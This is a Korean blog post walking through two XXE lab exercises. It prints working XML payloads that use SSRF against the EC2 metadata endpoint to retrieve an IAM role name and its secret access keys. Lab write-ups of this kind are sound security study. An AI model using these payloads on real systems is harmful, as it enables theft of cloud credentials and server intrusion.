 ```yaml
---
title: "[2025-07-08] XXE"
excerpt: "XXE"

categories:
  - Problem
tags:
  - [XXE]

permalink: /Problem/[2025-07-08] XXE/

toc: true
toc_sticky: true

date: 2025-07-07
last_modified_at: 2025-07-07
---
```


## 🦥 본문

### XXE(1)

이 실습에는 XML 입력을 파싱하고 응답에서 예상치 못한 값을 반환하는 '재고 확인(Check stock)' 기능이 있습니다. 이 실습을 해결하려면, XML 외부 엔티티(XML External Entity, XXE)를 삽입하여 /etc/passwd 파일의 내용을 가져오세요.

사이트를 처음 들어가면 아래와 같은 이미지가 나타난다
![alt text](../assets/images/posts_img/2025-07-08%20XXE/image.png)
view detail을 클릭하면 다음과 같다.
![alt text](../assets/images/posts_img/2025-07-08%20XXE/image1.png)

Check stock을 클릭하여 인터셉트 하면 다음과 같은 Request를 보낸다. 
![alt text](../assets/images/posts_img/2025-07-08%20XXE/image%20copy.png)
XML 방식으로 보내는 데 이 Request를 Repeater로 보내서 다음과 같이 보내면 비밀번호를 얻을 수 있다.
![alt text](../assets/images/posts_img/2025-07-08%20XXE/image%20copy%202.png)

### XXE(2)

이 실습에는 XML 입력을 파싱하고, 응답에 예상치 못한 값을 포함하여 반환하는 "재고 확인(Check stock)" 기능이 있습니다.

실습 서버는 기본 주소인 http://169.254.169.254/에서 실행되는 (모의된) EC2 메타데이터 엔드포인트를 가지고 있습니다. 이 엔드포인트는 해당 인스턴스에 대한 데이터를 조회하는 데 사용할 수 있으며, 일부 정보는 민감할 수 있습니다.

이 실습을 해결하려면, XXE 취약점을 이용하여 SSRF(Server-Side Request Forgery) 공격을 수행하고, EC2 메타데이터 엔드포인트로부터 서버의 **IAM 비밀 접근 키(secret access key)**를 획득해야 합니다.

위와 비슷한 사이트로 Check Stock을 클릭하여 Request를 인터셉트하면 위과 같은 Request가 나온다.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```
위와 같이 보내면 해당 계정을 알 수 있다. Res를 보면 admin인 것을 알 수 있다.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

위와 같이 보내면 key 값들을 모두 볼 수 있게 된다. 
![alt text](../assets/images/posts_img/2025-07-08%20XXE/image2.png)